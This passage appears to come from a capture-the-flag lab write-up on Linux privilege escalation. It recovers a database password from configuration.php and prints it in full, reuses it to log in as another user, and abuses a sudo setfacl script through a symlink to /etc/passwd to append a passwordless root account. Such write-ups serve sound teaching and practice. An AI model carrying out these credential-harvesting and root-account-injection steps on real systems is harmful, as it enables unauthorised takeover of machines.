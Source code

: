cat configuration.php | grep "pass" -i -n

I find the non-default password of "03F6lY3uXAP2bkW8" which is connecting to port 3306, the default port for MySQL. Before I connect to this database and explore there, I will test for any password reuse among other users with a shell.

By exploring /etc/passwd and looking for users with a shell, only the mtz user, besides root, appears available. Testing the password works.

Now as the mtz user, we can begin testing what access this user had that www-data did not. running sudo -l reveals a script that we can run without a password.

We have access to this file and can read the contents of exactly what it is doing.

Reading the script, it takes three arguments: the user, permissions, and the target. This script will give you whatever permissions you input to a file of your choice, as long as it is in the /home/mtz directory and the path does not inlcude any .., a common way to traverse directories backwards. The script first checks if if you included three arguments in your script. If not, the it exits and reminds you.

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

Next the script checks if the targets path starts in /home/mtz and does not include any ...

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

Finally, it checks if the target is a file and puts all the information into the setfacl command.

Check if the path is a file 
if [ ! -f "$target" ]; then 
    /usr/bin/echo "Target must be a file." 
    exit 1
fi
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

Since we cannot move out of the /home/mtz directory, we need someway to link a file in our directory to one in another, without having to be there.

By a simple google search, there is the ln command in Linux that links files together. Reading through the man pages shows two main options, creating a hard link vs a symbolic link. I suggest you read into the difference yourself, but the main differences are that hard links contain actual data of the file where symbolic links only contain a pointer to the data. Try both in the following command and it might make it more clear why only the symbolic link works for the exploit.

We could use a lot of different files to write data and get a shell that way, but what I am going to do is link to /etc/passwd and write my own root account.

ln -s /etc/passwd /home/mtz/test
sudo /opt/acl.sh mtz rw /home/mtz/test
echo "cookie::0:0:cookie:/root:/bin/bash" >> ./test
su cookie

Running the link command both hard and symbolically below shows the differences, where test is symbolic and test2 is hard.

Using su cookie, since we did not set a password, instantly sets us as the root cookie user.
